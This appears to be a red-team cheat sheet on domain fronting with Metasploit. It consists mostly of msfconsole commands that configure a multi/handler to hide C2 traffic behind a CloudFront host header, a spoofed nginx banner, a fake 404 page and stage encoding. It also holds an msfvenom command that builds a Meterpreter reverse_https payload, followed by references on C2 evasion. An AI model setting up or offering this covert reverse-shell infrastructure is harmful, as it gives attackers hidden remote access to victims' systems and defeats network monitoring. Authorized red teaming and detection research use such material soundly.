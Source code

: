 # Domain Fronting

Search Tag(s): #red-team-infrastructure #metasploit-framework #domain-fronting

## 01 - Shell Handler

```
msf exploit(multi/handler) > set HttpHostHeader afsa0dfna0sdfhq3.cloudfront.net

msf exploit(multi/handler) > set HttpUserAgent <user_agent>

msf exploit(multi/handler) > set HttpServerName nginx/1.21.2

msf exploit(multi/handler) > set HttpUnknownRequestResponse <html><head><title>404 Not Found</title></head><body><p><h1 align="center">404 Not Found</h1></p><br><p><hr></p><p align="center">nginx/1.21.2</p></body></html>
```

## 02 - The URI length for the stager (at least 5 bytes)

```
msf exploit(multi/handler) > set StagerURILength 420

msf exploit(multi/handler) > set HandlerSSLCert /path/to/cert.pem

msf exploit(multi/handler) > set SSLVersion TLS1.2

msf exploit(multi/handler) > set EnableStageEncoding true

msf exploit(multi/handler) > set StageEncoder x64/zutto_dekiru
```

`$ msfvenom -p windows/x64/meterpreter/reverse_https StagerURILength=420 HandlerSSLCert=/path/to/cert.pem`

* Optional payload advanced settings

```
msf exploit(multi/handler) > set HttpHostHeader

msf exploit(multi/handler) > set HttpCookie
```

---
## References

- [Anti-Forensics Evading Network Detection with Metasploit](https://sapphirex00.medium.com/c2-antiforensics-evading-network-detection-with-metasploit-b400342f20b1)

- [Quickpost: Metasploit User Agent Strings](https://blog.didierstevens.com/2015/03/16/quickpost-metasploit-user-agent-strings/)

- [Catching Meterpreter Callbacks](https://github.com/bats3c/shad0w/wiki/Catching-Meterpreter-Callbacks)

- [Windows Exploit with Word Macro](https://zer0day.tistory.com/303)

- [Conti TTP using Atomic Red Team and Detection Lab C2 infrastructure Hunting](https://michaelkoczwara.medium.com/conti-ttps-using-atomic-red-team-and-detection-lab-c2-infrastructure-hunting-16d159fe0ed8)

- https://labs.jumpsec.com/obfuscating-c2-during-a-red-team-engagement/

- [Chapter 11 Visualizing Metasploit (Use case related about MSGRPC which is the msfrpcd when connecting metasploit remotely)](https://goois.net/chapter-11-visualizing-metasploit-mastering-metasploit-fourth-edition.html)